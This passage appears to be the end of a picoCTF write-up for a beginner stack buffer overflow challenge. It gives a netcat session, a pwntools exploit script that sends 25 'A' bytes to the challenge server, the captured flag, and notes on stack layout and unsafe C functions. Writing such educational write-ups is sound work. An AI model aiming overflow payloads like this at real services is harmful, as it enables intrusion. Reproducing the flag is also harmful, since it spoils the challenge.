 ### Remote Exploitation
```bash
┌──(xuan㉿kali)-[~]
└─$ nc saturn.picoctf.net 52212
Enter a string: AAAAAAAAAAAAAAAAAAAAAAAAA
num is 65
You win!
picoCTF{l0c4l5_1n_5c0p3_ee58441a}
```

### Automated Exploit Script
```python
#!/usr/bin/env python3
from pwn import *

# Connect to remote server
p = remote('saturn.picoctf.net', 52212)

# Create payload: 24 bytes + overwrite with 65
payload = b'A' * 25  # 'A' = 0x41 = 65 in decimal

# Send exploit
p.recvuntil(b'Enter a string: ')
p.sendline(payload)

# Get the flag
print(p.recvall().decode())
```

## Key Concepts

### 1. **Buffer Overflow Basics**
- Buffers have fixed sizes in memory
- Writing beyond buffer boundaries affects adjacent variables
- Stack grows downward (high to low addresses)
- Data fills upward (low to high addresses)

### 2. **Stack Variable Layout**
- Local variables are stored on the stack
- Compiler may add padding for alignment
- Variables are placed at specific offsets from the base pointer (RBP)

### 3. **Vulnerable Functions**
Common unsafe functions that can cause buffer overflows:
- `gets()` - Never use, no bounds checking
- `strcpy()` - No bounds checking
- `sprintf()` - No bounds checking
- `scanf("%s")` - No length limit

Safe alternatives:
- `fgets()` - Specify maximum bytes
- `strncpy()` - Specify maximum bytes
- `snprintf()` - Specify buffer size
